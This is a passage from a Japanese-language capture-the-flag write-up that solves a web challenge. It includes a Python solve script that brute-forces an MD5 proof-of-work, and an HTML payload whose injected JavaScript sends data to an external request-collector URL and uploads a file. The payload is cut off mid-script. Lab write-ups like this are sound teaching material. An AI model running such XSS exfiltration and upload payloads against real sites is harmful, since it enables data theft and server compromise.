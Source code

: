 を payload として投げてみると

```html
<h1>Hello ...</h1>
<p>Upload your shell</p>
<form action="/upload" method="post" enctype="multipart/form-data">
<p><input type="file" name="file"></p>
<p><input type="submit" value="upload"></p>
</form>
```

と返ってきました。

FormData と XMLHttpRequest で適当にファイルをアップロードさせて、返ってきたレスポンスを手に入れましょう。

`solve.py` に

```python
import hashlib
import re
import requests
import uuid

cookies = {
  'PHPSESSID': str(uuid.uuid4())
}
task = requests.get('http://government.vip/', cookies=cookies)
task = re.findall(r"'(.+)'", task.content)[0]
print '[!]', 'task:', task

payload = open('payload.html').read() % (
  'http://requestb.in/xxxxxx',
  r"new Blob(['hoge'], {type: 'text/plain'})",
  'hoge',
  '(session id)'
)

i = 0
while True:
  s = str(i)
  if hashlib.md5(s).hexdigest().startswith(task):
    print '[!]', 'found:', s
    print requests.post('http://government.vip/run.php', cookies=cookies, data={
      'task': s,
      'payload': payload
    }).content
    break
  i += 1
```

`payload.html` に

```html
<script>
var payload = "\
try {\
  function f(x) {\
    document.createElement('img').src = '%s?' + encodeURIComponent(x);\
  }\
  var data = new FormData();\
  var blob = %s;\
  data.append('file', blob, '%s');\
  var frame = document.createElement('iframe');\
  document.body.appendChild(frame);\
  window.XMLHttpRequest = frame.contentWindow.XMLHttpRequest;\
  var js = document.createElement('script');\
  js.onload = function () {\
    $.ajax({\
```